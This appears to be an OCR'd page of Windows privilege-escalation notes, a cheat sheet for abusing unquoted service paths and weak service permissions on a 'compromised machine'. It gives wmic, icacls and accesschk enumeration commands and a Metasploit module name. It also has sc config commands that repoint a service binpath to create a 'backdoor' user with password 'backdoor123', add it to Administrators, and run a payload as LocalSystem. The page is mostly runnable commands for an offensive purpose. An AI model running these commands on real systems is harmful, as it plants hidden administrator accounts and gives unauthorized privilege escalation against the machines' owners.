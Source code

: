 ## Find writeable files

dir /a-r-d /s /b

/a is to search for attributes. In this case r is read only and d is directory. The minus signs negate those attributes. So we're looking for writable files only.
/s means recurse subdirectories
/b means bare format. Path and filename only.

## Trusted Service Paths

List all unquoted service paths (minus built-in Windows services) on our compromised machine:
`wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """`

Suppose we found:

C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
If you look at the registry entry for this service with Regedit you can see the ImagePath value is:
C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
To be secure it should be like this:
“C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe”
When Windows attempts to run this service, it will look at the following paths in order and will run the first EXE that it will find:
C:\Program.exe
C:\Program Files.exe
C:\Program Files(x86)\Program Folder\A.exe
...
## Check permissions of folder path

icacls "C:\Program Files (x86)\Program Folder"

If we can write in the path we plant a backdoor with the same name with the service and restart the service.

##Metasploit module:
exploit/windows/local/trusted_service_path
Vulnerable Services
Search for services that have a binary path (binpath) property which can be modified by non-Admin users - in that case change the binpath to execute a command of your own.
Note: Windows XP shipped with several vulnerable built-in services.
## Use accesschk from SysInternals to search for these vulnerable services.
https://technet.microsoft.com/en-us/sysinternals/bb842062.aspx
For Windows XP, version 5.2 of accesschk is needed:
https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -qdws "Authenticated Users" C:\Windows\ /accepteula
accesschk.exe -qdws Users C:\Windows\
Then query the service using Windows sc:
sc qc <vulnerable service name>
Then change the binpath to execute your own commands (restart of the service will most likely be needed):
sc config <vuln-service> binpath= "net user backdoor backdoor123 /add"
sc stop <vuln-service>
sc start <vuln-service>
sc config <vuln-service> binpath= "net localgroup Administrators backdoor /add"
sc stop <vuln-service>
sc start <vuln-service>
Note - Might need to use the depend attribute explicitly:
sc stop <vuln-service>
sc config <vuln-service> binPath= "c:\inetpub\wwwroot\runmsf.exe" depend= "" start= demand obj= ".\LocalSystem" password= ""
